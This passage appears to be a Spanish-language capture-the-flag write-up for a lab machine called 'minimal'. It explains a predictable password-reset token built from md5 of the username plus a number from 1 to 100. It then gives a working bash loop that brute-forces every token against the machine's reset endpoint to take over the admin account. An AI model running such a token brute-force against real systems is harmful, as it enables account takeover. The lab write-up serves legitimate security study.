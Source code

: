 Entonces el token se genera de la siguiente manera ``base64(md5([nombre_usuario]+[número aleatorio 1-100]))``

### GET

Tras generar el token y hacer una solicitud GET se comprueba que el token es el correcto de la siguiente forma.
- Verifica si los parámetros 'user', 'token' y 'newpass' están presentes en la URL.
- Si los parámetros están presentes, obtiene sus valores y realiza las siguientes operaciones:
  - Prepara y ejecuta una consulta SQL para seleccionar el token almacenado en la tabla "pass_reset" para el usuario proporcionado.
  - Verifica si el token almacenado coincide con el token proporcionado en la URL.
  - Si los tokens coinciden, prepara y ejecuta una consulta SQL para actualizar la contraseña en la tabla "users" con la nueva contraseña proporcionada.
  - Muestra "Password updated" si la actualización tiene éxito, o "Error updating" si hay un problema.
  - Si los tokens no coinciden, muestra "Not valid token".

La vulnerabilidad en este caso es que podemos hacer una lista finita de los posibles tokens y con ellos cambiar la contraseña del usuario **admin** para poder acceder a "/admin.php".

Lo primero que hay que hacer es solicitar el cambio de contraseña de **admin**.

![img](/imgs/write-ups/by-me/minimal/minimal_3.png)

## Explotación

Y a continuación, utilizando el siguiente script, hacer un ataque de fuerza bruta.
```sh
name="admin"

for ((i=1; i<=100; i++)); do
    nameWithNumber="${name}${i}"
    md5Hash=$(echo -n "$nameWithNumber" | md5sum | awk '{print $1}')
    base64Encoded=$(echo -n "$md5Hash" | base64)
    curl -X GET "http://192.168.1.125/reset_pass.php?user=admin&token=$base64Encoded&newpass=patata"
done
```
